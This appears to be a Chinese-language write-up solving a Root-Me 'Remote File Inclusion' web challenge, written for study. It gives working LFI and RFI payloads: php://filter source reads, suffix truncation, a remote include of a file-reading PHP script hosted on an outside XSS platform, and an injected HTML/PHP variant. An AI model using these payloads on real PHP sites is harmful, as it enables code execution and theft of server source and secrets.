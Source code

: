 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/remote-file-inclusion/)]

------


## 题目分析

PHP 的 RFI （远程文件包含）漏洞利用，与 LFI （本地文件包含）很类似。

题目要求我们获取 PHP 页面源码，开启挑战后，只有 [Français](http://challenge01.root-me.org/web-serveur/ch13/?lang=fr) （`?lang=fr`） 和  [English](http://challenge01.root-me.org/web-serveur/ch13/?lang=en) （`?lang=en`） 两个选项。

顺手测试了一下，当前页面的名称为 `index.php` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/01.png)

换言之我们有 3 个页面：`?lang=fr`、`?lang=en`、 `index.php` 。

------------

## LFI 试错

虽然题目提示要使用 RFI 完成挑战，但是还是先测试下 LFI 的效果。

可以利用 `php://filter` 特性读取页面源码，构造这样的 payload ：

`?lang=php://filter/convert.base64-encode/resource=fr`

于是得到 Base64 编码的页面源码：

```base64
PD9waHAKCiRsYW5nID0gYXJyYXkgKAogICAgICAgICAgICAnbGFuZycgPT4gJ0xhbmd1ZScsCiAgICAgICAgICAgICd3ZWxjb21lJyA9PiAnQmllbnZlbnVlIHN1ciBub3RyZSBub3V2ZWF1IHNpdGUgd2ViICEnLAogICAgICAgICk7Cgo/Pgo=
```

对其解码虽然得到源码，但是没有有效的信息：

```php
<?php

$lang = array (
            'lang' => 'Langue',
            'welcome' => 'Bienvenue sur notre nouveau site web !',
        );

?>
```

类似地，`?lang=en` 的页面源码也是没提供有效的信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/02.png)


换言之，有效信息应该保存在  `index.php` 。于是构造类似的 payload 去读取页面源码：

`?lang=php://filter/convert.base64-encode/resource=index.php`

但是页面报错：

```
Warning: include(php://filter/convert.base64-encode/resource=index.php_lang.php): failed to open stream
```

从报错分析可以知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`

亦即前面之所以可以读取到 `?lang=fr` 和 `?lang=en` 的内容，是因为他们真正的文件名是 `fr_lang.php` 和 `en_lang.php` 。

但是因为不存在 `index_lang.php` 和 `index.php_lang.php` 页面，所以 `include()`  Local File 时就会报错。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/03.png)


其实在 LFI 的领域，这种情况（include 的文件被强制加了后缀）是有办法处理的。

因为 PHP 是用 C 语言编写的，而在 C 语言中，标记一个字符串的终止符是 `\0` ，其 URL 编码是 `%00` 。

因此可以尝试在 payload 末尾添加 `%00` 以截断被强制添加的 `_lang.php` 后缀：

`?lang=php://filter/convert.base64-encode/resource=index.php%00`

但是这次报错为 `Warning: include()` ，即 `include` 的参数被置空，说明 `%00` 被过滤了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/04.png)

------------

## RFI 漏洞

由于 LFI 的最后希望被封堵，我们把策略转移到 RFI 。

其实 RFI 更简单，从前面分析已经知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`。

RFI 只需要再 `输入` 点直接设置 URL 地址即可，如 payload 为：`?lang=https://www.baidu.com` 。

但是页面返回报错 ` Warning: include(https://www.baidu.com_lang.php): failed to open stream` 。

这是因为 `_lang.php` 后缀作祟。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/05.png)

在 RFI 中要截断后缀，只需要在末尾添加 `?` 即可，这样后缀就会变成 URL 的参数，亦即构造 payload 为：

`?lang=https://www.baidu.com?` 

于是我们成功把百度嵌入到了页面中：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/06.png)

------------

## RFL 注入

既然可以成功嵌入百度，那么也可以嵌入 payload 页面。

所以接下来要做的，就是在一个公网可访问的 WEB 服务器上构造一个页面，把该页面的内容作为 payload ，读取发起 `include` 行为的页面源码。

为了节省搭建 WEB 服务器的资金，从这里开始我们利用 XSS 平台，推荐 [http://xss.tf](http://xss.tf) 。

在 XSS 平台上新建一个项目，并配置自定义代码 `<?php echo file_get_contents('index.php') ?>` 。

配置完成后，我们得到访问这个项目的页面地址为 `http://xss.tf/M5Q` 

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/07.png)

将 XSS 项目的 URL 注入挑战页面，即构造 payload ： `?lang=http://xss.tf/M5Q?`

成功读取到 `index.php` 的源码，打开浏览器的开发者工具，在注释中找到 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/08.png)

------------

## 其他 payload

在 XSS 平台上构造 payload 的过程中，我发现这题挑战其实不止一个解法:

在 `inlcule()` 参数的引号被闭合后，可以注入 HTML 和 JS 代码，然后在 JS 代码中调用 PHP 代码。

例如构造这样的 payload 一样可以成功读取到页面源码：

`'<img src=0 onerror="<?php echo file_get_contents('index.php') ?>" />'`

 看上去好像多此一举，不过在某些情况可能会很有用。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/09.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
